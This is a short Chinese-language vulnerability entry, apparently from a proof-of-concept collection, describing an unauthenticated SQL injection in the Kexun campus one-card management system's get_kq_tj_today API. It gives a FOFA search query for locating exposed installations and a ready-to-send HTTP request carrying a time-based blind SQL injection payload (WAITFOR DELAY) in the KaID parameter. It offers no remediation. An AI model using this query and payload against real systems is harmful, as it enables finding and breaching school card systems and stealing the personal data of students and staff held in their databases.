# 科讯一卡通管理系统get_kq_tj_today存在SQL注入漏洞

科讯校园一卡通管理系统get_kq_tj_today存在SQL注入漏洞，未经身份验证的远程攻击者可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```yaml
body="http://www.ahkxsoft.com/" && body="一卡通登录"
```

## poc

```yaml
GET /api/get_kq_tj_today?KaID=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

